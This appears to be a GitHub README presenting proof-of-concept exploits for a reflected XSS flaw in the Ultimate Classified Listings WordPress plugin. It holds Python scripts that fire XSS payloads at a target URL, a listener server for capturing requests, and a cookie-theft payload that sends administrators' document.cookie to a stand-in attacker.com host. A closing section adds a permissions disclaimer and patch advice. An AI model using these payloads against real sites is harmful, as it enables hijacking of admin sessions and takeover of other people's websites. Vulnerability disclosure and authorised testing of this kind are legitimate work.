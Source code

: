 # Proof of Concept (PoC) for Vulnerabilities in WordPress Plugins

This repository contains Proof of Concept (PoC) scripts for various vulnerabilities discovered in different WordPress plugins. These scripts demonstrate how attackers can exploit these vulnerabilities to perform malicious actions. 

## Table of Contents

- [Vulnerabilities Covered](#vulnerabilities-covered)
- [Setup and Usage](#setup-and-usage)
  - [Reflected XSS in Ultimate Classified Listings Plugin](#reflected-xss-in-ultimate-classified-listings-plugin)
  - [Stealing Cookies Using XSS](#stealing-cookies-using-xss)
- [Important Considerations](#important-considerations)

## Vulnerabilities Covered

1. **Reflected Cross-Site Scripting (XSS) in Ultimate Classified Listings Plugin**
   - A vulnerability in the Ultimate Classified Listings WordPress plugin before version 1.4 allows attackers to execute arbitrary JavaScript by injecting malicious scripts through unsanitized parameters.

2. **Stealing Cookies Using XSS**
   - Demonstrates how an attacker can exploit the reflected XSS vulnerability to steal cookies of high-privilege users, such as admins, by sending the cookies to a malicious server.

## Setup and Usage

### Reflected XSS in Ultimate Classified Listings Plugin

This PoC demonstrates how to exploit the reflected XSS vulnerability in the Ultimate Classified Listings plugin.

1. **Identify the Vulnerable Parameter**:
   - Assume the vulnerable parameter is `search` in the URL `http://example.com/classifieds`.

2. **Craft a Malicious URL**:
   - The malicious URL can include a payload to execute an alert dialog:
     ```plaintext
     http://example.com/classifieds?search=<script>alert('XSS')</script>
     ```

3. **Run the PoC Script**:
   - Save the following script as `xss_poc.py` and run it.
   
   ```python
   import requests

   # Configuration
   target_url = "http://example.com/classifieds"  # Change this to the target site's URL
   payload = "<script>alert('XSS')</script>"  # XSS payload

   def trigger_xss():
       # Construct the malicious URL
       malicious_url = f"{target_url}?search={payload}"

       # Send a GET request to the malicious URL
       response = requests.get(malicious_url)

       # Check if the payload is reflected in the response
       if payload in response.text:
           print("[+] XSS payload reflected in the response.")
           print("[+] Malicious URL:", malicious_url)
       else:
           print("[-] XSS payload not reflected in the response.")

   if __name__ == "__main__":
       trigger_xss()
   ```

### Stealing Cookies Using XSS

This PoC demonstrates how an attacker can exploit the reflected XSS vulnerability to steal cookies from high-privilege users.

1. **Setup a Malicious Server**:
   - Save the following script as `malicious_server.py` and run it to start a server that logs incoming requests (including cookies).
   
   ```python
   from http.server import BaseHTTPRequestHandler, HTTPServer
   import logging

   class RequestHandler(BaseHTTPRequestHandler):
       def do_GET(self):
           logging.info(f"Received request: {self.headers}")
           self.send_response(200)
           self.end_headers()

   def run(server_class=HTTPServer, handler_class=RequestHandler, port=8080):
       logging.basicConfig(filename='server.log', level=logging.INFO)
       server_address = ('', port)
       httpd = server_class(server_address, handler_class)
       logging.info(f'Starting server on port {port}...')
       httpd.serve_forever()

   if __name__ == "__main__":
       run()
   ```

2. **Craft a Payload to Steal Cookies**:
   - Create a payload that sends the admin's cookies to the malicious server:
     ```plaintext
     http://example.com/classifieds?search=<script>new Image().src='http://attacker.com:8080?cookie='+document.cookie;</script>
     ```

3. **Run the PoC Script**:
   - Save the following script as `steal_cookies_poc.py` and run it.
   
   ```python
   import requests

   # Configuration
   target_url = "http://example.com/classifieds"  # Change this to the target site's URL
   attacker_server = "http://attacker.com:8080"  # Change this to your malicious server's URL
   payload = f"<script>new Image().src='{attacker_server}?cookie='+document.cookie;</script>"

   def trigger_xss():
       # Construct the malicious URL
       malicious_url = f"{target_url}?search={payload}"

       # Send a GET request to the malicious URL
       response = requests.get(malicious_url)

       # Check if the payload is reflected in the response
       if payload in response.text:
           print("[+] XSS payload reflected in the response.")
           print("[+] Malicious URL:", malicious_url)
       else:
           print("[-] XSS payload not reflected in the response.")

   if __name__ == "__main__":
       trigger_xss()
   ```

## Important Considerations

- **Permissions**: Ensure you have explicit permission to test these vulnerabilities on the target site. Unauthorized access is illegal and unethical.
- **Testing Environment**: Perform these tests in a controlled environment to avoid impacting production systems.
- **Mitigation**: Update the Ultimate Classified Listings plugin to version 1.4 or later. Always sanitize and escape user inputs before including them in the output.

These PoCs demonstrate how an attacker could exploit vulnerabilities in WordPress plugins to perform malicious actions. Always keep your software up-to-date and follow security best practices to prevent such vulnerabilities.